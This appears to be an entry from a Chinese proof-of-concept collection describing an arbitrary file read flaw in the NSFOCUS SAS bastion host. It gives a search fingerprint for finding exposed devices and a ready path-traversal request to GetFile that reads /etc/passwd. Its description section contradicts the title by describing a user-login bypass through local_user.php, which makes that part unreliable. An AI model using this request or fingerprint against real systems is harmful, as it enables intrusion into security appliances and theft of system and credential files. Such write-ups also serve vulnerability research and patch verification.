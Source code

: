 # 绿盟 SAS堡垒机 GetFile 任意文件读取漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

绿盟 SAS堡垒机

## 网络测绘

```
body="'/needUsbkey.php?username='"
```

## 漏洞复现

登陆页面

![image-20230828162656143](images/image-20230828162656143.png)

漏洞存在于文件 GetFileController.php 文件中

![image-20230828162808415](images/image-20230828162808415.png)

验证POC

```
/webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd
```

![image-20230828162825768](images/image-20230828162825768.png)